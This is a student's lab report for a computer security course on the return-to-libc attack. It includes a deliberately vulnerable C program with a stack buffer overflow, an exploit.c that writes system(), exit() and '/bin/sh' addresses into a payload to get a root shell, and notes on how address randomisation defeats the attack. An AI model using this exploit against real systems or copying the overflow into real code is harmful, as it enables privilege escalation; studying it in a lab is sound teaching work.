

# Lab12


**Name** 黎诗龙

**SID** 11811407


## Task1


I found the the addresses of libc functions are as following, which are shown in the picture.

`system()`  is `0xb7e42da0`.

`exit()` is `0xb7e369d0`.


## Task2

I add the code from the pdf into the code, and the code is like this

```c
/* retlib.c */
/* This program has a buffer overflow vulnerability. */
/* Our task is to exploit this vulnerability */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int bof(FILE *badfile)
{
	char buffer[12];
	/* The following statement has a buffer overflow problem */
	fread(buffer, sizeof(char), 40, badfile);
	return 1;
}
int main(int argc, char **argv)
{
	char* shell = getenv("MYSHELL");
	if (shell)
		printf("shell address is %x\n", (unsigned int)shell);
	FILE *badfile;
	badfile = fopen("badfile", "r");
	bof(badfile);
	printf("Returned Properly\n");
	fclose(badfile);
	return 1;
}
```


 I print out the address of the shell command in the `main()`, and it shows that the address of `/bin/sh` is `0xbffffddc`.

## Task3

From the ppt we know that $X=Y+8, Z=Y+4$

To modify the `exploit.c` like this:

```c
/* exploit.c */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
char buf[40];
FILE *badfile;
badfile = fopen("./badfile", "w");
memset (&buf,0xaa,40);
int Y = 24;
*(long *) &buf[Y+8] = 0xbffffddc ; // "/bin/sh" 
*(long *) &buf[Y] = 0xb7e42da0 ; // system() 
*(long *) &buf[Y+4] = 0xb7e369d0 ; // exit() 
fwrite(buf, sizeof(buf), 1, badfile);
fclose(badfile);
}
```

After compiling it and running it and `retlib`, then I got this:


It shows that I got the`root` privilege. 

### Attack variation1

After I cancelled the `exit()`, then the attack is still successful, just a little bit wrong with `exit` command in the bash shell.


### Attack variation2

The attack failed and it shows that the address of `/bin/sh` has changed, and this is the reason why the hacking fails.



## Task4

The attack has failed naturally, since every time I run the `retlib` it has changed the address of the `/bin/sh` so it is hardly to predict and execute the shell code.


And we met the `segmentation fault`, which means the addresses of `system()` and `exit()` have changed.

For $X, Y, Z$, they stay the same because they are the relative offset (address), the randomization has no effect on it.


## Observation

The `return-to-libc` attack can bypass the stack protection and exploit the `root` privilege by buffer overflow attack. 

In the last lab of Computer Security, I learn more about the stack structure of `%ebp` `%eip` `%esp` `%eax` they are quite to be seen in the function call, which is very fundamental to us cs student.

And finally, from the 12 labs Prof. Zhang introduces the interesting and core parts of the classical attacks in the system security, web security, app security. To be honest, they are hard to learn, and sometimes confusing for me, but I am still very interested in them because security always brings surprising and interesting observations. And in this course, I learned a lot.

Thanks for Prof. Zhang, also for TAs.